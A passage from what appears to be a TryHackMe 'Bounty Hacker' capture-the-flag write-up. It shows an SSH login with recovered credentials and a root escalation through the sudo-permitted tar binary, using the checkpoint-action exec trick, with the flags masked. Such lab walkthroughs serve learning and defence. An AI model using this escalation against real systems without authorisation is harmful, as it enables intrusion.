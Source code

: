 2. We get a legit set of [creds](https://github.com/pratty010/Boxes/blob/master/Try%20Hack%20Me/Easy/Bounty%20Hunter/creds.txt). We can use them to get on the box. Let's get the `user.txt` flag. 

```bash
$ ssh lin@10.10.59.237
lin@10.10.59.237's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{*************************}
```

3. As we have the password for the user, let's go for the low hanging fruits like `sudo -l`. We see that the user can run `tar` binary as root.
So, let's go back to [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo) to escalate privileges. We will also do other enumerations to find other ways.

```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

## PRIVESC

1. Using the above method, we escalate to root. Now the keys are ours and so is the kingdom. Let's get on with the loot.

```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
tar: Removing leading `/' from member names
root@bountyhacker:~/Desktop# whoami
root
root@bountyhacker:~/Desktop# cat /root/root.txt 
THM{*******************}
```

## EXTRA TREAT 
